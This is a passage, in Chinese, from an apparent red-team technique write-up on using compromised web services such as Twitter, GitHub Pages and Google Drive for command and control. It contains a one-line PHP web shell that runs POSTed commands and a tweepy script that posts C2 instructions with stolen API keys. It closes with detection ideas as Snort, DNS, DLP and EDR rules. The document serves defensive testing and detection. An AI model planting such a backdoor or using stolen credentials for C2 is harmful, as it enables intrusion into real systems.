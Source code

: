      ```php
     <?php
     // 简单的C2后门
     if (isset($_POST['cmd'])) {
         system($_POST['cmd']);
     }
     ?>
     ```
4. **API滥用模拟**：
   - 使用窃取的Twitter API密钥发送C2指令：
     ```python
     import tweepy
     auth = tweepy.OAuthHandler("stolen_consumer_key", "stolen_consumer_secret")
     auth.set_access_token("stolen_access_token", "stolen_access_token_secret")
     api = tweepy.API(auth)
     api.update_status("test_C2_command:execute_payload")
     ```
5. **结果分析**：
   - 验证C2通道、钓鱼页面或恶意文件分发是否正常运行。
6. **日志收集**：
   - 收集DNS、网络流量、邮件和端点日志，分析Web服务入侵痕迹。

## 测试留痕
Web服务入侵可能留下以下痕迹：
- **网络流量**：与Web服务API端点的异常HTTP/HTTPS通信。
- **DNS查询**：解析到Web服务（如github.io、drive.google.com）的异常域名。
- **邮件服务器日志**：针对Web服务账户的钓鱼邮件。
- **端点日志**：访问Web服务托管的恶意页面或下载可疑文件的记录。
- **Web服务日志**：异常的账户登录、内容修改或API调用（需服务提供商支持）。

## 检测规则/思路
由于Web服务入侵多发生在目标组织视野之外，检测需结合多种手段：
- **网络流量监控**：
  - 检测与Web服务（如Twitter API、Google Drive）的异常通信，关注高频API调用或可疑流量模式。
  - 示例Snort规则：
    ```snort
    alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"Suspicious Web Service Traffic"; content:"api.twitter.com"; sid:1000001;)
    ```
- **DNS监控**：
  - 检测解析到Web服务IP的异常域名，重点关注github.io、drive.google.com等。
  - 示例DNS防火墙规则：
    ```plaintext
    Rule: Detect Suspicious Web Service Domains
    Condition: DNS query resolves to github.io OR drive.google.com
    Action: Alert
    ```
- **邮件监控**：
  - 使用DLP工具检测针对Web服务账户的钓鱼邮件。
  - 示例DLP规则：
    ```plaintext
    Rule: Detect Phishing Links to Web Services
    Condition: Email contains "http" AND "github.com"
    Action: Alert
    ```
- **端点监控**：
  - 使用EDR工具（如CrowdStrike、Carbon Black）检测访问Web服务托管的恶意页面或下载可疑文件的活动。
  - 示例EDR规则：
    ```plaintext
    Rule: Detect Suspicious Web Service Access
    Condition: Process connects to github.io AND NOT authorized
    Action: Alert